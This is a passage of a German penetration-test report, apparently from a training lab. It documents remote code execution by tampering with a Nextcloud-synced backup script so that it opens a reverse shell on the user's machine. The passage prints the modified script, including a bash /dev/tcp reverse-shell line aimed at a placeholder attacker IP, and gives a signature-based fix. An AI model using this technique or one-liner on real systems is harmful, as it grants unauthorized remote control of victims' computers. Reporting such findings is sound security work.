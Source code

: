 \section{\makecvssbadge Remote Code Execution (RCE)}

\subsection*{Proof of concept} 
Der Nutzer \textit{butterbluem} nutzt ein einfaches Bash-Skript, um das Home-Verzeichnis seines Rechners mit der Nextcloud zu synchronisieren. Dieses Skript ist ebenfalls in den Dateien des Nutzers auf der Nextcloud zu finden. Durch die Anpassung des Skripts kann eine Reverse Shell initiiert werden, da das Skript regelmäßig auf dem Rechner \textit{butterbluem} ausgeführt wird. Zunächst wird dazu ein Netcat-Listener auf dem System des Angreifers gestartet, wie in \autoref{listing:netcat-listener} beschrieben. Anschließend muss das Bash-Skript zur Synchronisation angepasst werden, wie in \autoref{listing:butterbluem:backup} dargestellt. Beim darauffolgenden Aufruf des Bash-Skripts wird die Revers Shell gestartet und der Angreifer erhält vollen Zugriff auf den Rechner \textit{butterbluem}. Ein Nachweis ist in \autoref{fig:08_butterbluem_proof} dargestellt. 

\begin{listing}[!ht]
\begin{verbatim}
#!/bin/bash


bash -c 'bash -i >& /dev/tcp/<Angreifer-IP>/9001 0>&1'

rsync -avP /mnt/backup/* /home/butterbluem/
\end{verbatim}
\caption{Datei backup-home.sh}
\label{listing:butterbluem:backup}
\end{listing}

\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/08_butterbluem_proof.png}
    \caption{Proof für die Webanwendung Maggot's Pilzboard}
    \label{fig:08_butterbluem_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}   
    \item Dateien verifizieren: Das Bash-Skript zur Synchronisation des Home-Verzeichnisses kann mit einer digitalen Signatur oder einem Hash gesichert werden. Dadurch können Änderungen am Skript erkannt und das Skript abgebrochen werden.
\end{itemize}